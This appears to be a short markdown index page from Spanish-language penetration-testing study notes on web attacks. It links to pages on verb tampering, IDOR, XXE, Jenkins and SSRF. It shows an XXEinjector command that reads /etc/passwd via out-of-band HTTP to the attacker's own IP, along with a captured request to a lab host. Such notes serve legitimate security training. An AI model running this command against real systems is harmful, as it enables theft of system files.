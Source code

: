 # Other Web Attacks (HTTP verb Tampering, IDOR & XXE)

- [HTTP verb tampering](./http-verb-tampering.md)
- [IDOR (Insecure Direct Object Reference)](./idor.md)
- [XXE (XML External Entity)](./xxe.md)
- [Attacking Jenkins](./attacking-jenkins.md)
- [SSRF](./ssrf.md)
- Podemos utilizar [XXEinjector](https://github.com/enjoiz/XXEinjector) para automatizar el proceso de inyección de XML externa.
- `ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter` Nos tenemos que guardar la petición HTTP de burp
```
POST /blind/submitDetails.php HTTP/1.1

Host: 10.129.197.101

Content-Length: 140

Accept-Language: en-US,en;q=0.9

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36

Content-Type: text/plain;charset=UTF-8

Accept: */*

Origin: http://10.129.197.101

Referer: http://10.129.197.101/

Accept-Encoding: gzip, deflate, br

Connection: keep-alive



<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT```